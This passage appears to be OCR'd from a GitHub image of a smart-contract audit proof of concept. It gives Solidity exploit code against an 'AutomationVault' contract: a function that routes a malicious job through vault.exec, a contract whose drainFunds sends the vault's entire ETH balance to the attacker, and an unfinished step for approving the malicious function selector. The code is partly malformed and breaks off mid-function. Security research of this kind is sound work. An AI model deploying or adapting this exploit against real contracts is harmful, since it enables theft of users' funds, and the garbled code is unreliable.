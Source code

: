 ```solidity
        attacker = _attacker;

        // Deploy a malicious job contract
        maliciousJob = new MaliciousJob(address(vault), _token, _attacker);
    }

    function executeExploit() external {
        // Prepare the execution data for the malicious function call
        bytes memory jobData = abi.encodeWithSignature("drainFunds()");
        
        // Prepare the execution data array
        AutomationVault.ExecData[] memory execData = new AutomationVault.ExecData[](1);
        execData[0] = AutomationVault.ExecData({
            job: address(maliciousJob),
            jobData: jobData
        });
        
        // Execute the malicious job using the exec function in the vault
        vault.exec(attacker, execData, new AutomationVault.FeeData );
    }
}

```
You can try is also: 
1. Deploy a malicious contract with a function that performs harmful actions, such as draining funds from the `AutomationVault` contract.
```solidity
// Malicious contract that performs harmful actions
contract MaliciousContract {
    // Reference to the AutomationVault contract
    address public automationVault;

    constructor(address _automationVault) {
        automationVault = _automationVault;
    }

    // Function to drain funds from the AutomationVault
    function drainFunds() external {
        // Cast the AutomationVault address to the correct interface
        IAutomationVault vault = IAutomationVault(automationVault);

        // Specify the token, amount, and receiver address
        // Using `automationVault` itself to drain the funds
        address token = vault.NATIVE_TOKEN();
        uint256 amount = address(vault).balance; // Drain all ETH
        address receiver = msg.sender; // Send to the attacker

        // Invoke the withdrawFunds function on the AutomationVault contract
        vault.withdrawFunds(token, amount, receiver);
    }
}

```
2.  Find a way to add the function selector of the `drainFunds` function (`0x1f4b0ce5`) to the `_approvedJobSelectors` mapping for the target job. 
```solidity
// Function to add the malicious function selector to the _approvedJobSelectors mapping
function addMaliciousFunctionSelector(address relay, address job, address owner) external {
    // This function should be called by the owner to add the selector for `drainFunds`
    // Encode the function selector for `drainFunds`
    bytes4 maliciousSelector = bytes4(keccak256("drainFunds()"));

    // Simulate the owner calling an approval function to add the selector to the relay and job
    // This should ideally be in a separate script or function that owner would execute
```